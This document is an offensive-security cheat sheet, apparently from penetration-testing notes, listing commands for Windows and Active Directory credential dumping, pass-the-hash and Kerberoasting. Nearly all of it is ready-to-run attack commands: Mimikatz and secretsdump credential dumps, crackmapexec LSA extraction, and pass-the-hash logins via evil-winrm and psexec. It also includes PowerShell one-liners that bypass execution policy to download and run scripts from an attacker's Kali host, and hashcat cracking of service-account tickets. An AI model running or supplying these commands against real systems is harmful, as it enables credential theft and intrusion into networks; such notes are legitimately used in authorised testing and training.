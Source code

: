 #### 9.2.2. Invoke-Mimikatz

|   |   |
|---|---|
|Prepare file on Kali|`curl -Lo /var/www/html/Invoke-Mimikatz.ps1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Exfiltration/Invoke-Mimikatz.ps1`|
|Execute|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://$KALI/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"`|

#### 9.2.3. impacket-secretsdump

```sh
impacket-secretsdump [$DOMAIN\]$USERNAME:$PASSWORD@$TARGET
```

#### 9.2.4. crackmapexec

|   |   |
|---|---|
|Domain account, password|`crackmapexec smb $TARGET -u $USERNAME_LIST -p $PASSWORD --lsa`|
|Local administrator, hash|`crackmapexec smb $TARGET_RANGE -u administrator -H $NT_HASH --local-auth --lsa`|

### 9.3. [Pass the hash](/notes/attacking-active-directory.md#3-pass-the-hash)

|   |   |
|---|---|
|evil-winrm|`evil-winrm -i $TARGET -u $USERNAME -H $NT_HASH`|
|impacket-psexec|`impacket-psexec -hashes $LM_HASH:$NT_HASH [$DOMAIN/]$USERNAME@$TARGET [$COMMAND]`|
|pth-winexe|`pth-winexe -U [$DOMAIN/]$USERNAME%$LM_HASH:$NT_HASH //TARGET cmd.exe`|
|sekurlsa::pth + PsExec|`sekurlsa::pth /user:domainadmin /domain:$DOMAINx /ntlm:$NT_HASH`<br>`PsExec \\$TARGET cmd.exe`|

### 9.4. [Kerberoasting](/notes/attacking-active-directory.md#42-kerberoasting)

Option 1: `Invoke-Kerberoast.ps1`

|   |   |
|---|---|
|Prepare file on Kali|`cp /usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1 /var/www/html`|
|Execute on target|`powershell.exe -NoProfile -ExecutionPolicy Bypass "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat hashcat \| % { $_.Hash } \| Out-File -Encoding ASCII tgs.hash"`|

Option 2: `impacket-GetUserSPNs`

```sh
impacket-GetUserSPNs $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP -outputfile tgs.hash
```

Cracking service account hash using hashcat

```sh
hashcat -m 13100 tgs.hash /usr/share/wordlists/rockyou.txt
```
